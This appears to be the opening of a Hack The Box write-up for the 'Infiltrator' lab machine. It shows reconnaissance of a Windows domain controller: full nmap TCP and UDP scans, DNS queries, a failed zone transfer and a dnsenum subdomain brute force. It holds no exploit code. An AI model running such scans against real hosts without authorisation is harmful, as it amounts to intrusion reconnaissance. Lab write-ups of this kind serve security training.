# Initial Enumeration

As usual we are provided only one singular IPv4 address as entry point and we are aware of the OS used in the base backend machine.



Without further do I will start by checking all the alive services on the TCP protocol.

&nbsp;

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Infiltrator.htb
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-09-03 08:06:14Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-03T08:09:29+00:00; +1s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-03T08:09:29+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-03T08:09:29+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-03T08:09:29+00:00; +1s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-09-03T08:08:50+00:00
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Issuer: commonName=dc01.infiltrator.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-30T13:20:17
| Not valid after:  2025-01-29T13:20:17
| MD5:   be1d:a071:bf6d:fff0:20c0:6b23:8e7e:1763
| SHA-1: cbda:6e22:6ccf:b5e7:534c:b9f0:d9e7:c5d8:dab9:769e
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQEksgaGbQ7qFO0heTW/LJSzANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRkYzAxLmluZmlsdHJhdG9yLmh0YjAeFw0yNDA3MzAxMzIwMTda
| Fw0yNTAxMjkxMzIwMTdaMB8xHTAbBgNVBAMTFGRjMDEuaW5maWx0cmF0b3IuaHRi
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5A47zJpebA20B8srMHJc
| Ecr172XLmBcuJeeDm6fLyGfqn8kdvMrkbgPb5fY+wndgpg8ghRf74rzoeGQB7/DT
| yeJ9Vw+roAmWV8mT7A/HBeleI/eyvYNMv6Bji1re1kFr+Q1bKgF3ZfhTMSChtHSo
| TxXxJFvtwQeKOEqgoL8iiugUiVwHPojb8xe9pzFbQJ3Bfxx8z+wqrWokv0UcjyZT
| QVAzkFYGTpgtf1aG9CLwkASlM8hi32prsZdhcB66jahk1FhMqZhf8K+ROazuv1qT
| CRyCGPQaM1/KxK3psFHUUQT/2lS12CMfoJkrMcQXnV83Q8wuVVhws5AHmRj5AxnD
| GQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBAHGVeX7LFs6Rh35yyRT0is9t0Wye4DqSs5rHak9qNfMO
| XMXnrc+ziHKYn3B7/Va4MPnhGrl8GREKSW2r1MW64LSA1hDp3wlPZxB7LxQ69ycb
| cvwnoiKgD85FjyAyoNrbwmxR+D869JJGvNZMbs8G/ctG0ec5buItNQ4u3P/9TKaW
| LwhUsDPNqqGYCdN3aGKE3HF8u5KN+IMnwwnrl6autBYIuLh835OFRC3jduHelfPr
| Ei5hdGGBM4S8fMl81oayYicTVIv20AY9udYNXvfXwS8yR41ZcYDnYIdv46lgzL3x
| zrZnLpQs2tNZXHW8WCXhhhXMkSPpvh7Y6+f67XKI/Ds=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-03T08:09:29+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
15220/tcp open  unknown       syn-ack ttl 127
15230/tcp open  unknown       syn-ack ttl 127
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49690/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49729/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49750/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62721/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=9/3%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=66D6C439%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=103%TI=I%II=I%SS=S%TS=U)
OPS(O1=M550NW8NNS%O2=M550NW8NNS%O3=M550NW8%O4=M550NW8NNS%O5=M550NW8NNS%O6=M550NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M550NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-03T08:08:50
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 58387/tcp): CLEAN (Timeout)
|   Check 2 (port 23636/tcp): CLEAN (Timeout)
|   Check 3 (port 5587/udp): CLEAN (Timeout)
|   Check 4 (port 55757/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1s, deviation: 0s, median: 0s

```

I will perform a same scan but this time for the UDP protocoll as well.

```
└─# nmap -sU -F 10.129.65.151            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 10:04 CEST
Nmap scan report for infiltrator.htb (10.129.65.151)
Host is up (0.030s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.31 seconds

```

&nbsp;Without further do let's dig into manual services.

&nbsp;

# DNS

I will try to perform some manual record enumeration, starting by getting any record available.

```
└─# dig any infiltrator.htb @10.129.65.151       

; <<>> DiG 9.20.1-1-Debian <<>> any infiltrator.htb @10.129.65.151
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39622
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;infiltrator.htb.		IN	ANY

;; ANSWER SECTION:
infiltrator.htb.	600	IN	A	10.129.65.151
infiltrator.htb.	3600	IN	NS	dc01.infiltrator.htb.
infiltrator.htb.	3600	IN	SOA	dc01.infiltrator.htb. hostmaster.infiltrator.htb. 483 900 600 86400 3600

;; ADDITIONAL SECTION:
dc01.infiltrator.htb.	3600	IN	A	10.129.65.151

;; Query time: 27 msec
;; SERVER: 10.129.65.151#53(10.129.65.151) (TCP)
;; WHEN: Tue Sep 03 10:06:06 CEST 2024
;; MSG SIZE  rcvd: 142

```

&nbsp;So far nothing out out the box, but what about a zone transfer?

```
──(root㉿kali)-[/home/user]
└─# dig axfr infiltrator.htb @10.129.65.151

; <<>> DiG 9.20.1-1-Debian <<>> axfr infiltrator.htb @10.129.65.151
;; global options: +cmd
; Transfer failed.

```

No luck but what about a brute force? Seems still nothing interesting, we can move on.

```
──(root㉿kali)-[/home/user]
└─# dnsenum --dnsserver 10.129.65.151 --enum -p 0 -s 0 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt infiltrator.htb
dnsenum VERSION:1.3.1

-----   infiltrator.htb   -----


Host's addresses:
__________________

infiltrator.htb.                         600      IN    A        10.129.65.151


Name Servers:
______________

dc01.infiltrator.htb.                    1200     IN    A        10.129.65.151


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc01.infiltrator.htb at /usr/bin/dnsenum line 892 thread 1.

